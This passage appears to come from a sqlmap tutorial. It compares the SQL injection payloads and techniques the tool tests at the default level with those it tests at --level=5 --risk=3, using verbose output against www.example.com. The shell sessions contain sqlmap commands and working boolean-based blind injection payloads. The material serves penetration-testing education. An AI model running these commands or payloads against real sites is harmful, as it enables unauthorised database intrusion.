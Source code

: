 ...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
</code></pre>
<p>On the other hand, payloads used with the default <code>--level</code> value have a considerably smaller set of boundaries:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
</code></pre>
<p>As for vectors, we can compare used payloads as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL &gt;= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u www.example.com/?id=1 --level=5 --risk=3

...SNIP...
[14:46:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
...SNIP...
[14:46:05] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[14:46:05] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
[14:46:05] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
...SNIP...
[14:46:05] [INFO] testing 'MySQL &lt; 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[14:46:05] [INFO] testing 'MySQL &lt; 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[14:46:05] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
...SNIP...
[14:46:05] [INFO] testing 'SAP MaxDB boolean-based blind - Stacked queries'
[14:46:06] [INFO] testing 'MySQL &gt;= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:46:06] [INFO] testing 'MySQL &gt;= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
...SNIP...
</code></pre>